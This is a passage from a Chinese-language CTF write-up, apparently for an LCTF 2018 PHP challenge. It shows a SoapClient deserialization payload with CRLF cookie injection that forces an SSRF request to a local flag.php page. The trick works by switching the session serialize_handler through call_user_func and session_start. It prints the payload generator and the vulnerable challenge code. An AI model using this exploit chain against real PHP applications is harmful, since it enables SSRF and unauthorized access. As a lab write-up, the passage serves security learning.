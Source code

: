 那么关于这些反序列化引擎我们如何更改呢？  

配置选项 session.serialize_handler，通过该选项可以设置序列化及反序列化时使用的处理器。  

而我们要想更改这个选项我们就可以使用ini _set这个函数，但是这个函数，不接受数组，所以就不行了。于是我们就用session _start来代替。  

接下来就是用这些知识点串起来来解题。  

首先我们要利用soap类先构造post请求。  

	<?php
	$target = "http://127.0.0.1/flag.php";
	$attack = new SoapClient(null,array('location' => $target,
    'user_agent' => "N0rth3ty\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4\r\n",
    'uri' => "123"));
	$payload = urlencode(serialize($attack));
	echo $payload;  

这个请求很简单，就是指定了一个cookie值来访问本地的flag.php页面，利用SoapClient类来发送这个请求，发送的方法就是通过触发_call()方法.  

这里要注意序列化后我们要在payload前加上竖线"|"。这样就可以通过我们转换序列化引擎来达到注入数据的效果。  

### 第一步  

	1.利用call_user_func($_GET[‘f’], $_POST);函数，改变此页面的序列化引擎，为php_serialize。  

	这里就用到了call_user_func()函数，我们$f传入方法session_start，$post传入配置选项serialize_handler=php_serialize，从而更改这个页面的序列化引擎（这里post的配置选项是一个数组，这也就解释了为什么不能用ini_set方法）

	2.$_SESSION[‘name’] = $_GET[‘name’];将我们的序列化对象，传入session中，并在前面，加一个“|”符号。此时session会以php_serialize的规则储存：a:1:{s:4:“name”;s:199:"|O:10:"SoapClient…"}  

而下面也就将我们传入的session值进行反序列化后返回出来，结果和我们估计的一样。  

[![](https://pic.imgdb.cn/item/612dfdcd44eaada73985a993.png)](https://pic.imgdb.cn/item/612dfdcd44eaada73985a993.png)  

### 第二步  

接下来就是要触发_call()方法来让soap类发送我们构造好的请求，来访问本地的flag.php，达到ssrf效果。  

而触发_call()的要求我们之前也已讲到，要使call _user _func()这个函数访问一个对象内不存在的方法，这里我们再次回看一下题目代码。  

	<?php
	highlight_file(__FILE__);
	$b = 'implode';
	call_user_func($_GET['f'], $_POST);
	session_start();
	if (isset($_GET['name'])) {
	    $_SESSION['name'] = $_GET['name'];
	}
	var_dump($_SESSION);
	$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
	call_user_func($b, $a);
	?>  

可以看到，这个$b变量的值是固定的，这就导致我们最后一个call _user _func()没有发挥作用，那么我们就要从这里下手，我们首先利用第一个call _user _func()函数，将$b变量进行覆盖：  
